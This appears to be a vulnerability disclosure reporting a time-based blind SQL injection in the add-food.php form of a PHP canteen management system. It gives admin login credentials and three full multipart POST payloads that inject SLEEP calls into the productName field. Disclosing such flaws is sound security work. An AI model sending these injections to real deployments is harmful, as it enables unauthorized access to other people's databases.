



# Canteen Management System Project by mayuri_k has SQL injection
BUG_Author: YorkLee

Login account: mayuri.infospace@gmail.com/rootadmin

vendors:https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

Vulnerability File: /youthappam/add-food.php

Vulnerability location: /youthappam/add-food.php POST form exists time-based blind injection vulnerability

Payload1: 

```
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="productName"

123' AND (SELECT 5842 FROM (SELECT(SLEEP(5)))JKeV) AND 'jYhF'='jYhF
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="quantity"

123
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="rate"

123
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="categoryName"

1
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="productStatus"

1
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="create"


------WebKitFormBoundarywm9jYBqgKtHi9E5z--
```
**note: the field "------WebKitFormBoundarywm9jYBqgKtHi9E5z" is from Content-Type that in http-header**

SELECT(SLEEP(5)) The server response time is 5 seconds



Payload2: 

```
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="productName"

123' AND (SELECT 5842 FROM (SELECT(SLEEP(10)))JKeV) AND 'jYhF'='jYhF
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="quantity"

123
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="rate"

123
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="categoryName"

1
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="productStatus"

1
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="create"


------WebKitFormBoundarywm9jYBqgKtHi9E5z--
```
**note: the field "------WebKitFormBoundarywm9jYBqgKtHi9E5z" is from Content-Type that in http-header**

SELECT(SLEEP(10)) The server response time is 10 seconds



Payload3: 

```
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="productName"

123' AND (SELECT 5842 FROM (SELECT(SLEEP(15)))JKeV) AND 'jYhF'='jYhF
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="quantity"

123
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="rate"

123
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="categoryName"

1
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="productStatus"

1
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="create"


------WebKitFormBoundarywm9jYBqgKtHi9E5z--
```
**note: the field "------WebKitFormBoundarywm9jYBqgKtHi9E5z" is from Content-Type that in http-header**

SELECT(SLEEP(15)) The server response time is 15 seconds



